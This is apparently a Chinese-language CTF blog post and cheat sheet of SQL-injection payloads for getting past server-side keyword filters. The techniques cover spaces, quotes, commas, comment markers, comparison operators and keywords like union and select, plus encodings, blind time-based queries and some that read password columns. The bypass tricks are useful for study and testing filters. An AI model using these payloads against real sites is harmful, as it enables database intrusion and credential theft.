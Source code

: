 ```yaml
---
title: sql注入针对关键字过滤的绕过技巧
date: 2018-10-14 18:07:45
tags:
    - ctf
    - sql
    - bypass
categories:
    - ctf
---
```


在sql注入中经常会遇到服务端针对注入关键字进行过滤，经过查询各种文章，总结了一部分绕过的方法。
<!--more-->

一、过滤空格
------

 - 1.1.使用 **注释符`/**/`**


    SELECT/**/name/**/FROM/**/table


 - 1.2.使用 **url编码**


    %a0 发出去就是空格的意思，但是需要在burp中抓包后修改


 - 1.3.使用 **浮点数**


    select * from users where id=8E0union select 1,2,3
    select * from users where id=8.0 select 1,2,3


 - 1.4.使用 **Tab代替空格**

 - 1.5.使用 **两个空格代替一个空格**

 - 1.6.使用 **括号**

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

    select(user())from dual where(1=1)and(2=2)

这种过滤方法常常用于time based盲注,例如：

    ?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23



二、过滤引号
------

 - 2.1.使用 **16进制**

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

    select column_name  from information_schema.tables where table_name="users"

这个时候如果引号被过滤了，那么上面的`where`子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
`users`的十六进制的字符串是`7573657273`。那么最后的sql语句就变为了：

    select column_name  from information_schema.tables where table_name=0x7573657273



三、过滤逗号
------

 - 3.1.使用 **from关键字**

对于`substr()`和`mid()`这两个方法可以使用`from to`的方式来解决：

    select substr(database() from 1 for 1);
    select mid(database() from 1 for 1);

 - 3.2.使用 **join关键字**


    union select 1,2     #等价于
    union select * from (select 1)a join (select 2)b


 - 3.3.使用 **like关键字**


    select ascii(mid(user(),1,1))=80   #等价于
    select user() like 'r%'


 - 3.4.使用 **offset关键字**

对于limit可以使用offset来绕过：

    select * from news limit 0,1

等价于下面这条SQL语句

    select * from news limit 1 offset 0


四、过滤注释符（`#`或`-- `）
------------------

 - 4.1.手动闭合引号，不使用注释符


    id=1' union select 1,2,3||'1


或者：

    id=1' union select 1,2,'3



五、过滤比较符号 （`<`和`>`）
------------------

 - 5.1.使用 **`greatest()`、`least（）`函数**

greatest()、least（）：（前者返回最大值，后者返回最小值）
同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
最常见的一个盲注的sql语句：

    select * from users where id=1 and ascii(substr(database(),0,1))>64

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
那么上面的这条sql语句可以使用greatest变为如下的子句:

    select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64

 - 5.2.使用 **`between` `and`**

between a and b：返回a，b之间的数据，不包含b。


六、过滤等号（`=`）
-----------

 - 6.1.使用like 、rlike 、regexp 或者 使用< 或者 >

七、过滤`or` `and` `xor` `not`
--------------------------

 - 7.1.使用符号代替


    and=`&&`  or=`||`   xor=`|`   not=`!`


八、过滤`union`，`select`，`where`等
-----------------------------

 - 8.1.使用 **注释符**

常用注释符：

    //，-- , /**/, #, --+, -- -, ;,%00,--a

用法：

    U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user

 - 8.2.使用 **大小写**


    id=-1'UnIoN/**/SeLeCT


 - 8.3.使用 **内联注释**


    id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#


 - 8.4.使用 **双关键字绕过（若删除掉第一个匹配的union就能绕过）**


    id=-1'UNIunionONSeLselectECT1,2,3–-


 - 8.5.使用 **加号+拆解字符串**


    如 `or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )`




九、使用 **各种编码**绕过过滤
-----------------

 - 9.1.如`URLEncode`编码，`ASCII`,`HEX`,`unicode`编码绕过


    `or 1=1`即`%6f%72%20%31%3d%31`，而`Test`也可以为`CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`



十、使用**等价函数**绕过过滤
----------------


    hex()、bin() ==> ascii()
    
    sleep() ==>benchmark()
    
    concat_ws()==>group_concat()
    
    mid()、substr() ==> substring()
    
    @@user ==> user()
    
    @@datadir ==> datadir()
    
    举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
    
    或者：
    substr((select 'password'),1,1) = 0x70
    strcmp(left('password',1), 0x69) = 1
    strcmp(left('password',1), 0x70) = 0
    strcmp(left('password',1), 0x71) = -1


